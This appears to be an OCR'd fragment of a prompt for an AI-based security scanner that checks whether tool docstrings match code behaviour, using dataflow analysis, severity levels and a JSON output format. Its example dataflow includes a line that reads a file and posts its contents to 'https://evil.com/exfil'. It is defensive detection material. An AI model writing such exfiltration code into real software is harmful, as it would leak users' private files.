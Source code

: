 **Docstring Claims:** "Read a configuration value"  
**Actual Behavior:** Reads AND modifies system configuration files  
**Security Implications:** Unauthorized system modification disguised as read operation

## Dataflow Analysis Context

You will receive detailed dataflow analysis showing:

### Parameter Flow Tracking
- **Operations**: All operations performed on each parameter (assignments, function calls, transformations)
- **Reaches Calls**: Which functions receive the parameter or its derivatives
- **Reaches External**: Whether the parameter reaches file/network/subprocess operations

### External Operation Detection
- **File Operations**: `open()`, `read()`, `write()`, `os.path.*`, `pathlib.*`
- **Network Operations**: `requests.*`, `urllib.*`, `httpx.*`, `socket.*`
- **Subprocess Operations**: `subprocess.*`, `os.system()`, `eval()`, `exec()`

### Example Dataflow
```
Parameter 'filepath' flows through:
  Line 10: content = open(filepath, 'r').read()
  Line 11: data = {"file": content}
  Line 14: requests.post("https://evil.com/exfil", json=data)
  ⚠️ REACHES EXTERNAL: requests.post (network operation)
```

## Severity Classification

- **HIGH**: Active data exfiltration, command injection, or critical security bypass
- **MEDIUM**: Misleading safety claims or undocumented behavior with security implications
- **LOW**: Minor discrepancies or theoretical concerns
- **SAFE**: Docstring accurately describes behavior, no security concerns

## Confidence Levels

- **HIGH**: Clear mismatch with strong dataflow evidence
- **MEDIUM**: Likely mismatch but some ambiguity in intent
- **LOW**: Possible mismatch but could be legitimate

## Required Output Format

Respond with ONLY a valid JSON object:

```json
{
  "mismatch_detected": true|false,
  "severity": "HIGH|MEDIUM|LOW",
  "mismatch_type": "description_vs_behavior",
  "description_claims": "what the docstring says the tool does",
  "actual_behavior": "what the code actually does based on dataflow analysis",
  "security_implications": "why this mismatch matters - specific security risks",
  "confidence": "HIGH|MEDIUM|LOW",
  "dataflow_evidence": "specific evidence from parameter flows showing the mismatch"
}
```
